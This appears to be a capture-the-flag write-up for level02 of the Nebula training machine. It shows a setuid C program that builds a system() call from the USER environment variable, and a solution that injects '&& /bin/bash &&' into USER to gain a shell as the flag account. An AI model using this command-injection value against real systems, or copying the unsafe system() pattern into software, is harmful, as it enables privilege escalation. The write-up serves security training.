 # Level02

## Task

>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

>To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

## Solution

The binary calls the `USER` enviroment variable. Changing this allows us to exploit and get the flag.

```
level02@nebula:/home/flag02$ export USER="user && /bin/bash && echo"
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo user && /bin/bash && echo is cool")
user
```

```
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
